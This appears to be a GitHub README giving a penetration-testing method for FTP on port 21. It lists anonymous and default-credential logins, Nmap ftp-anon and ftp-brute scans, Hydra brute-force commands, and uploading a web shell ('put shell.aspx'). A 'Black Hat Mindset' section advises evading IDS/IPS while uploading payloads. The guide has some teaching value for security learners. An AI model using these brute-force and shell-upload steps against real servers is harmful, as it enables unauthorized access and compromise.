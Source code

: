 # Basic Methodology - Port 21 (FTP)

This README explores exploiting the File Transfer Protocol (FTP) on port 21, focusing on anonymous login attempts, file transfer for payload delivery, Nmap NSE script usage, and brute-force attacks to gain unauthorized access.
## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Anonymous Login and Password Reuse](#anonymous-login-and-password-reuse)
- [Transferring Files](#transferring-files)
- [Nmap NSE Scripts](#nmap-nse-scripts)
- [Brute-Force Attacks](#brute-force-attacks)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

FTP on port 21 is often used for file sharing but can be a weak point if misconfigured, allowing anonymous access or vulnerable to credential guessing. This guide covers connecting via anonymous login, transferring files (e.g., shells), scanning with Nmap NSE scripts, and brute-forcing credentials to compromise the server.

## Setup and Prerequisites

- **Environment**: Linux or Windows host with network access to the target FTP server.
- **Tools**: Install `ftp` (e.g., `apt install ftp` on Linux), `telnet`, `nmap`, `hydra`, and optionally FileZilla or Sparta GUI.
- **Wordlists**: Prepare a password file (e.g., `password-file.txt`) or use `/usr/share/wordlists/rockyou.txt`.
- **IP Address**: Identify the target IP address (e.g., `<IP address>` from initial enumeration).
- **Permissions**: No authentication is needed for anonymous login; valid credentials are required for brute-force.

## Anonymous Login and Password Reuse

Attempt to access the FTP server without credentials or with default ones.

```bash
# Connect to FTP server
$ ftp <IP address>

# Using FileZilla GUI
# Open FileZilla, enter <IP address> as the host, and attempt to connect anonymously.

# Browser access
ftp://<IP address>

# Test connectivity with telnet
$ telnet <IP address>
```

### Credentials:
- Username: `ftp` Password: `ftp`
- Username: `anonymous` Password: `anonymous`
- Test common defaults like `admin/admin` or `guest/guest`

## Transferring Files

Upload or download files to deliver payloads or extract data.

```bash
# Download files
ftp> get file.txt

# Upload files
ftp> put shell.aspx
```

## Nmap NSE Scripts

Scan for FTP vulnerabilities using Nmap's scripting engine.

```bash
# List available FTP scripts
$ ls -la /usr/share/nmap/scripts | grep "ftp"

# Check for anonymous login
$ nmap -p 21 --script ftp-anon <IP address>

# Attempt credential brute-force
$ nmap -p 21 --script ftp-brute <IP address>
```

## Brute-Force Attacks

Guess credentials to gain access to restricted FTP servers.

```bash
# Hydra brute-force with custom wordlist
$ hydra -l root -P password-file.txt <IP address> ftp

# Hydra with rockyou wordlist
$ hydra -l root -P /usr/share/wordlists/rockyou.txt ftp://<IP address>

# Sparta GUI
# Open Sparta, configure an FTP module with a wordlist, and target <IP address>
```

## Black Hat Mindset

- **Probe Anonymously**: Test for open anonymous access to upload shells without credentials.
- **Exploit Weaknesses**: Use Nmap scripts to find vulnerabilities before attacking.
- **Crack Credentials**: Target default or weak passwords with hydra or Sparta to gain full control.
- **Stay Undetected**: Upload payloads quietly and avoid triggering IDS/IPS during brute-force.

## Resources

- [FTP Protocol](https://en.wikipedia.org/wiki/File_Transfer_Protocol)
- [Nmap NSE Documentation](https://nmap.org/nsedoc/)
- [Hydra Manual](https://github.com/vanhauser-thc/thc-hydra)
- [Sparta GitHub](https://github.com/SECFORCE/sparta)
- [FileZilla Guide](https://wiki.filezilla-project.org/Main_Page)

